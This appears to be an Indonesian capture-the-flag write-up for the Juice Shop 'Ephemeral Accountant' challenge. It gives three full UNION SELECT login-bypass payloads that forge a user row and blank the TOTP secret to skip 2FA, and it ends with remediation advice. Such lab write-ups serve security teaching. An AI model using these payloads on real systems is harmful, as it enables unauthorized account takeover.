

# Ephemeral Accountant

## Challenge Overview

**Judul:** Ephemeral Accountant

**Kategori:** SQL Injection

**Kesulitan:** ⭐⭐⭐⭐ (4/6)

Tujuan challenge ini adalah **masuk sebagai user sementara** `acc0unt4nt@juice-sh.op` tanpa pernah mendaftarkan akun tersebut. Eksploitasi dilakukan dengan menyuntikkan `UNION SELECT` ke query login sehingga backend “melihat” record user palsu hanya untuk durasi eksekusi query (ephemeral), kemudian memberikan token/autentikasi.

---

## Tools Used

* **Web browser** — mengakses UI login.
* **Burp Suite** (Proxy / Repeater) — intercept dan modifikasi request `POST /rest/user/login`.
* Pengetahuan struktur tabel `Users` (didapat dari challenge *Database Schema*).

---

## Step by Step Solution

1. **Konfirmasi struktur tabel `Users`**
   
   Dari challenge Database Schema diketahui tabel `Users` memiliki 13 kolom:

   ```
   id, username, email, password, role, deluxeToken,
   lastLoginIp, profileImage, totpSecret, isActive,
   createdAt, updatedAt, deletedAt
   ```
    
   Informasi ini dipakai agar payload `UNION SELECT` cocok jumlah kolomnya.

2. **Intercept request login**
   
   Tangkap request POST ke `/rest/user/login` via Burp atau DevTools. Contoh body normal:

   ```json
   {
     "email": "user@example.com",
     "password": "password123"
   }
   ```

3. **Payload awal**
   
   Suntikkan payload pada field `email` untuk membentuk row palsu lewat `UNION SELECT`:

   ```sql
   admin' UNION SELECT * FROM (
     SELECT 67, 'acc0unt4nt@juice-sh.op', 'acc0unt4nt@juice-sh.op',
     'aaaa', 'Administrator', '1234', '127.0.0.1',
     '/assets/public/images/uploads/default.svg',
     '676941', 0, 1, 2, 3
   )--
   ```

   Kirim request dengan `password` sesuai field `'aaaa'` (atau sembarang).

   
   **Hasil:** aplikasi menolak karena meminta **2FA** (kolom `totpSecret` berisi nilai).

4. **Bypass 2FA — kosongkan `totpSecret`**
   
   Ubah kolom `totpSecret` di subquery menjadi string kosong:

   ```sql
   admin' UNION SELECT * FROM (
     SELECT 67, 'acc0unt4nt@juice-sh.op', 'acc0unt4nt@juice-sh.op',
     'aaaa', 'Administrator', '1234', '127.0.0.1',
     '/assets/public/images/uploads/default.svg',
     '', 0, 1, 2, 3
   )--
   ```
    
   **Hasil:** muncul error `FOREIGN KEY constraint failed` (karena `id = 67` tidak valid untuk constraint DB).

5. **Perbaiki FOREIGN KEY — gunakan id valid**
   Ganti `id` menjadi nilai yang valid di DB (mis. `20`):

   ```sql
   admin' UNION SELECT * FROM (
     SELECT 20, 'acc0unt4nt@juice-sh.op', 'acc0unt4nt@juice-sh.op',
     'aaaa', 'Administrator', '1234', '127.0.0.1',
     '/assets/public/images/uploads/default.svg',
     '', 0, 1, 2, 3
   )--
   ```
   Kirim request final dengan `password` = `aaaa`.

   
   **Hasil akhirnya:** login sukses — server memberikan token dan sesi aktif sebagai `acc0unt4nt@juice-sh.op`.

6. **Verifikasi**

   * Masuk ke halaman profil/account untuk memastikan nama/email yang tampil adalah `acc0unt4nt@juice-sh.op`.
   * Ambil screenshot sebagai bukti (login sukses).

---

## Solution Explanation

* Teknik `UNION SELECT` menambahkan baris hasil query yang **mencerminkan schema tabel Users** — sehingga backend memproses user palsu itu seolah nyata pada saat eksekusi query login.
* Mengosongkan `totpSecret` mencegah aplikasi meminta 2FA.
* Menggunakan `id` yang valid menghindari constraint DB (FOREIGN KEY) sehingga query tidak error.
* Karena aplikasi tidak memverifikasi bahwa record itu memang “persisted” di tabel (melainkan hanya memeriksa hasil SELECT), injeksi ini menghasilkan sesi yang sah untuk user ephemeral.

---

## Remediation

Untuk mencegah eksploitasi serupa pada aplikasi produksi:

1. **Prepared Statements / Parameterized Queries**
   Jangan pernah buat query SQL dengan menggabungkan string input user. Gunakan parameter binding agar input diperlakukan sebagai data, bukan bagian query.

2. **Validasi Server-side yang Ketat**

   * Pastikan user yang berhasil di-query benar-benar ada di tabel (mis. cek existence by primary key) dan bukan hasil gabungan/constructed row.
   * Validasi format dan nilai input di server (email regex, panjang, karakter terlarang).

3. **Kurangi Informasi Error**
   Jaga agar pesan error DB (contoh: constraint failure) tidak bocor ke client; log internal tetapi tampilkan pesan generik.

4. **Otorisasi dan Cek Integritas**
   Setelah autentikasi, lakukan pemeriksaan tambahan (mis. cek apakah user memiliki entitas terkait yang konsisten) sebelum mengeluarkan token/akses.

5. **Least Privilege & Hardening DB**
   Batasi hak akses DB user aplikasi. Nonaktifkan kemampuan yang tidak perlu yang bisa memudahkan `UNION`/SELECT sensitif.

6. **Audit & Testing Rutin**
   Jalankan scanning SAST/DAST, penetration test, dan review query yang mengonsumsi input user (khususnya endpoint login).